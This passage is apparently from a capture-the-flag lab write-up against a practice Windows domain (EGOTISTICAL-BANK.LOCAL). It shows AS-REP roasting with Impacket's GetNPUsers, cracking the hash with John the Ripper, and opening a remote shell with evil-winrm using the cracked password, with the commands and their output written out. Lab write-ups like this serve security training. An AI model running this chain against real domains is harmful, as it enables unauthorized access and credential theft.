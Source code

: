 ### Requesting For Encrypted Ticket From AS

From Linux, Impacket is the go-to tool for pentesting Kerberos.

`./GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile TargetUsers.txt -format john -outputfile hashes.asreproast`

```
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] User hsmith doesn't have UF_DONT_REQUIRE_PREAUTH set
```

User hsmith requires Pre-Authentication so we cannot get the TGT and the encrypted logon session key.

But we are able to obtain the information for fsmith.

The nmap script above and GetNPUsers use the same mechanism, so technically you can skip the separate user enumeration.

### Cracking Password

Next, crack the password using John The Ripper.

`john  --wordlist=/usr/share/wordlists/rockyou.txt hashes.asreproast `

```
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Thestrokes23     ($krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL)
```

We now have one set of credentials.

* username: fsmith
* password: Thestrokes23

## Getting A Shell

From our port scan, we see that the port 5985 is open. It is the port for WinRM which is a remote management protocol (like SSH) for Windows.

There are several Linux tools for connecting to WinRM, but from my experience, the most reliable one is [evil-winrm](https://github.com/Hackplayers/evil-winrm).

To get a WinRM shell:

`evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23`

```
Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\FSmith\Documents> cat C:\Users\FSmith\Desktop\user.txt
```
